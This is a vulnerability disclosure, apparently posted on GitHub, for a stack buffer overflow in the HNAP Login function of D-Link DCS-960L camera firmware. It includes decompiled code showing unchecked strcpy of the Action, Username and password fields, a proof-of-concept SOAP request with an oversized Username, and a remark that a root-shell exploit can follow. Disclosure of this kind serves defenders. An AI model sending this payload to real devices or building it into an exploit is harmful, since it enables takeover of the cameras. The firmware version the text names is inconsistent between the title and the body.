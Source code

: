 # DCS-960L_A1_FW_1.13.01_r4589  Stack overflow vulnerability

## INFO
Manufacturer's address：https://www.dlink.com/
Firmware download address ： https://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DCS-960L

## Affected version
The firmware used in this analysis is 1.09

## Vulnerability details

At HNAP service, In the Login function, I can enter Action, the Action will strcpy to v42, but program do not check size, resulting in stack overflow.

```c
int __fastcall Login(int a1)
{
......
	ElementByTag = ixmlGetElementByTag(a1, "Login");
  v5 = ElementByTag;
  if ( !ElementByTag )
  {
    ixmlAppendNewElement(Document, Element, "LoginResult", "failed");
    v15 = Document;
    goto LABEL_49;
  }
  ElementValueByTag = (const char *)ixmlGetElementValueByTag(ElementByTag, "Action");
  if ( ElementValueByTag )
    strcpy(v42, ElementValueByTag);
......
}
```

In the Login function, I can enter Username and LoginPassword, the username&password will strcpy to v36&v38, but program do not check the size, resulting in stack overflow.

```c
int __fastcall Login(int a1)
{
......
				v16 = (const char *)ixmlGetElementValueByTag(v5, "Username");
        v17 = (const char *)ixmlGetElementValueByTag(v5, "LoginPassword");
        if ( v16 )
        {
          strcpy((char *)v36, v16);
          if ( !strcmp((const char *)v36, "Admin") )
            snprintf((char *)v36, 0x20u, "%s", "admin");
        }
        if ( v17 )
          strcpy(v38, v17);
        v53 = (const char *)v36;
        fprintf(stderr, "username: %s\\n", (const char *)v36);
        v55 = v38;
        fprintf(stderr, "loginPassword: %s\\n", v38);
......
}

```

## POC

```python
SOAPAction: http://192.168.0.1/HNAP1/Login
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://192.168.0.1/HNAP1/">
      <Action></Action>
      <Username>a * 0x10000</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```

Finally, you can write exp to achieve the effect of stable access to the root shell
